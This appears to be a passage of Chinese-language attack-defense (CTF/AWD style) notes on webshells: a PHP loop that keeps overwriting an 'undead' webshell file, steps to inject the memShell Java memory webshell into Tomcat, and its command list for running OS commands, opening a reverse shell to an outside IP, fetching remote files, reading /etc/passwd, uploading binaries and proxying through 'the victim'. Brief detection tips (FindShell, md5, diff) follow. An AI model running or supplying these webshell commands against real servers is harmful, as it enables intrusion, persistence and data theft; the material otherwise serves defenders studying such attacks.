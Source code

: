     2. 用一个ignore_user_abort(true)脚本，一直竞争写入（断断续续）。usleep要低于不死马设置的值。
        `<?php
        ignore_user_abort(true);
        set_time_limit(0);
        unlink(__FILE__);
        $file = '.shell.php';
        $code = 'hi springbird !';
        while (1){
            file_put_contents($file,$code);
            system('touch -m -d "2018-12-01 09:10:12" .shell.php');
              usleep(100);
        }
        ?>`
###### java内存马
_apache-tomcat-9.0.83安装和启动
    ```
    tar xf apache-tomcat-9.0.83.tar.gz
    cd apache-tomcat-9.0.83/bin
    ./startup.sh
    ```
启动后tomcat默认工作8080端口_
**[内存马](https://github.com/rebeyond/memShell)**
下载和启动

```
unzip memShell.zip
cd memShell
java -jar inject.jar //植入内存马
```
内存马的使用
```
anyurl?pass_the_world=pass //show this help page.
anyurl?pass_the_world=pass&model=exec&cmd=whoami //run os command.
anyurl?pass_the_world=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.
anyurl?pass_the_world=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.
anyurl?pass_the_world=pass&model=list[del|show]&path=/etc/passwd //list,delete,show the specified path or file.
anyurl?pass_the_world=pass&model=download&path=/etc/passwd //download the specified file on the victim's disk.
anyurl?pass_the_world=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b] //upload a text file or a base64 encoded binary file to the victim's disk.
anyurl?pass_the_world=pass&model=proxy //start a socks proxy server on the victim.
anyurl?pass_the_world=pass&model=chopper //start a chopper server agent on the victim.
```
[内存马查杀](https://github.com/4ra1n/FindShell)
`java -jar FindShell.jar --pid [目标JVM的PID]`
###### 隐藏的webshell后门
* 文件md5值校验
* diff命令：在 Linux 中，可以使用diff通过快速找出两个项目文件的差异`diff -c -a -r cms1 cms2`(如果只是想查看两个文件是否不同又不想显示差异之处的话，可以加上 -q 选项)

